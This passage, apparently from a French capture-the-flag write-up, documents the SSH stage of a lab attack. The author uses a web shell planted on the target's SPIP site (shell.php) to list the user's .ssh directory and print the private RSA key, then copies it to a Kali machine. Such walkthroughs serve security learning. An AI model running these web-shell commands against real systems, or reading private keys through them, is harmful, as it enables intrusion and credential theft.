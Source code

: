 ## SSH

On doit maintenant, aller plus loin pour trouver le flag root qui doit sûrement nécessité la recherche d'un terminal en root pour l'obtenir. On avais vu, au début avec le nmap, qu'il y avait un port pour le ssh donc je suis allé voir si la connexion SSH est faisable par clé :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../../.ssh
```
![found%20key%20ssh%201.png](Screens/found%20key%20ssh%201.png)

Et, on peut voir qu'il y a les deux clés (privé et public) rsa pour le SSH donc j'ai copié le contenu de la clé privé sur ma Kali :
```
http://<IP-cible>/spip/shell.php?0=cat ../../.ssh/id_rsa
```
![found%20key%20ssh%202.png](Screens/found%20key%20ssh%202.png)
